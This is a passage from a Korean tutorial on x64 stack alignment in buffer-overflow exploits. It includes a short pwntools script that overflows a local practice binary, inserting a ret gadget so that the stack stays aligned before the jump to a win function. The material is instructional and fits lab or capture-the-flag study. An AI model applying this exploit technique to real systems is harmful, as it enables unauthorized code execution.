 그리고 결국 do_system()을 실행하다 movaps에 걸려 segmentation fault를 띄우고 exploit은 실패하게 됩니다.

# RET sled

지금까지 설명한 내용을 이해하셨다면 앞으로 공격 코드를 짜실 때 아무 문제없을 거라 생각합니다. 그래도 여기서 글을 마무지 짓긴 애매하니 해결 방법을 알아보죠.

```python
#bof2.py

from pwn import*

p = process('./vuln')

win = 0x401156
ret = 0x40119a # ret sled

payload = b'A'*24 + p64(ret) + p64(win)

p.sendline(payload)
p.interactive()
```

![](x64-stack-alignment/21.png)

```bash
$ python3 bof2.py
```

네. 정말 별거 없습니다. ret 가젯을 하나 더 추가해서 RSP의 위치를 8만큼 조정해주면 BOF 공격을 할 때 stack alignment를 유지할 수 있습니다. 너무 단순하고 당연해서 더 설명할 게 없네요.



![](x64-stack-alignment/22.png)
